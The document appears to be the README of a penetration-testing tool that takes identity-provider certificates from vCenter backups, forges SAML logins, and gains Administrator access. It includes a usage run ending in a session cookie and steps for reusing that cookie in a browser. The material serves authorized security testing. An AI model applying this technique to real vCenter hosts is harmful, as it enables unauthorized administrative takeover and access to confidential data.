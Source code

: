 # vCenter SAML Login Tool
A tool to extract the Identity Provider (IdP) cert from vCenter backups and log in as Administrator

## Background
Commonly, during engagements, we will gain access to vCenter backups on a fileserver or gain root access to the VCSA host through recent CVEs. Logging into the vCenter vSphere UI allows us to easily gain access to more systems, confidential information, as well as show customers the impact of these findings.

With root or administrative permissions, it is possible to extract the IdP certificates from the directory service information located within the data.mdb file on the VCSA host. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://\<VCSA>\/ui, add the cookie under the /ui path, and re-browse to https://\<VCSA\>/ui. 

## Demonstration
![](vcenter.gif)
